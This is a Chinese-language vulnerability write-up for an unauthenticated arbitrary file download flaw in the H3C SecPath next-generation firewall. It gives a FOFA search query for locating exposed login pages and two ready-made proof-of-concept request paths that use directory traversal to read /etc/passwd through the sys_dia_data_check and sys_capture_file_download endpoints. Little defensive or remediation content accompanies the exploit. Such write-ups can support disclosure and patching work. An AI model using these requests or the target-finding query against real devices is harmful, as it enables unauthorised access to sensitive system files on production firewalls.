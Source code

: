 # H3C SecPath下一代防火墙 sys_dia_data_check 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

<a-checkbox checked>H3C SecPath</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Web user login"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210604115315360.png)



存在漏洞点的功能有两个



![img](../../../.vuepress/public/img/image-20210604115351314.png)



点击下载抓包更改请求



![img](../../../.vuepress/public/img/image-20210604115431531.png)



并且在未身份验证的情况中，也可以请求下载敏感文件，验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```